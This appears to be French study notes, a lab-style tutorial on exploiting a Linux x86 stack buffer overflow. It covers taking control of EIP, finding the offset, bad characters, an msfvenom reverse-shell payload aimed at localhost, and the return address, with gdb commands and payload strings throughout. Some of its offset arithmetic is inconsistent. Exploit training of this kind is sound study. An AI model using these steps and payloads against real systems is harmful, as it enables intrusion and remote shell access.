 n**Take Controle of EIP**

Avec `gdb`, envoyer un nombre important de 'A' au programme jusqu'a obtenir une erreur soit (`SIGSEGV, Segementation fault`)

```c
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) run $(python2 -c "print 'A' * 1200")
```

A partir des informations du registre `info registers`, verifier que nous avons bien ecrit sur `EIP` et qu'il a les valeurs `A` soit `0x41414141`

---

**Finding the offset**

Maintenant il faut chercher le `offset` c'est la taille exact qu'il faut pour écrasé sur `EIP`

```c
msf-pattern_create -l 100
```

Executer la sortie de la commande dans `gdb` 

```c
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4A...
```

Verifier que `EIP` a une nouvelle valeur, prendre cette valeur et trouver l'`offset` correspondant.

```c
msf-pattern_offset -q {EIP_VALUE}
```

Ceci vas retourner une valeur qui sera la taille de note `offset`.

---

**Determine the Length for Shellcode**

Apres avoir trouver l'`offset` , nous devons maintenant découvrir de combien d’espace nous disposons pour que notre reverse shell

nous avons besoin de :

```c
   Buffer = "A" * (offset - 100 - 150 - 4)
     NOPs = "\x90" * 4
Shellcode = "\x44" * 50
      EIP = "\x66" * 4
```

```c
(gdb) run $(python2 -c 'print "A" * (54 - 100 - 150 - 4) + "\x90" * 4 + "B" * 50 + "\x66" * 4')
```

Verifier que nous controllons `EIP` et qu'il a une nouvelle valeur soit `0x66666666`.

---

**Find bad caracter**

Une fois que nous controllons l'`EIP`, nous devons identifier les mauvais caractères

Nous utilisons cette liste de caractères  pour connaître tous les caractères que nous devons prendre en compte et éviter lors de la génération de notre shellcode.

Cette chaîne fait `256`  octets

```sh
$CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

echo $CHARS | sed 's/\\x/ /g' | wc -w
```

Nous devons donc recalculer notre tampons

```c
Buffer = "A" * (offset - 256 - 4)
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

Maintenant il faut mettre un point d'arrêt au niveau de la fonction vulnerable pour que l'exécution s'arrête à ce stade, et nous puissions analyser le contenu de la mémoire.

```c
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

Maintenant, nous pouvons exécuter l’entrée nouvellement créée et consulter la mémoire.

```c
(gdb) run $(python2 -c 'print "A" * (54 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

Après avoir exécuté notre tampon avec les mauvais caractères et atteint le point d'arrêt, nous pouvons examiner la pile.

```c
(gdb) x/2000xb $esp+500
```

> Descendre plus bas et chercher le point final de `A` et le point de départ de `CHARS`

Nous voyons où se termine notre `A` et où commence la variable `CHARS`

> Noter tout les caractères qui saute l'ordre de `CHARS`, supprimer le de `CHARS` et ajuster le numéro de `CHARS` en retirant `-1` soit : `Buffer = "A" * (offset - (256 - n) - 4)` puis **rexécuter**

**Ce processus doit être répété jusqu'à ce que tous les caractères susceptibles d'interrompre le flux soient supprimés.**

> [!NOTE] Generalement nous devont verifier le `\x00` qui nous indique que ce caractère n'est pas autorisé ici et doit être supprimé en conséquence.


Ces caractères noter sera notre `bad characters`

---

**Generating Shellcode**

```c
msfvenom --platform linux -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=4444 -f c -b "<badchars>" -o shellcode.c
```

Maintenant que nous avons notre shellcode, nous l'ajustons pour n'avoir qu'une seule chaîne, puis nous pouvons adapter et soumettre à nouveau notre simple exploit.

```c
   Buffer = "A" * (offset - 124 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4
```

```c
(gdb) run $(python -c 'print "\x55" * (offset - 124 - 95 - 4) + "\x90" * 4 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

Ensuite, nous vérifions si les premiers octets de notre shellcode correspondent aux octets après le NOPS.

Aller a la fin des `NOPs` et obsever le debut du shellcode

```c
(gdb) x/2000xb $esp+550
```

---

**Identification of the Return Address**

Après avoir vérifié que nous contrôlons toujours l'EIP avec notre shellcode, nous avons maintenant besoin d'une adresse mémoire où se trouvent nos NOP pour dire à l'EIP d'y accéder.

Cette adresse mémoire ne doit contenir aucun des mauvais caractères que nous avons trouvés précédemment.

```c
(gdb) x/2000xb $esp+1400
# 0xffffd644: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd64c: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd654: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd65c: 0x90  0x90  0xda  0xca  0xba  0xe4  0x11  0xd4
```

Ici, il faut maintenant choisir une adresse à laquelle on se réfère `EIP`

Après avoir sélectionné une adresse mémoire, nous remplaçons notre " `\x66`" qui écrase l'EIP pour lui dire de passer à l'adresse selectionner. (`0xffffd64c`)

Notez que la saisie de l'adresse selectionner est saisie à l'envers.
 
```c
   Buffer = "A" * (offset - 100 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = \x4c\xd6\xff\xff"
```

> **Executer le programme pour obtenir un reverse shell**

```c
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

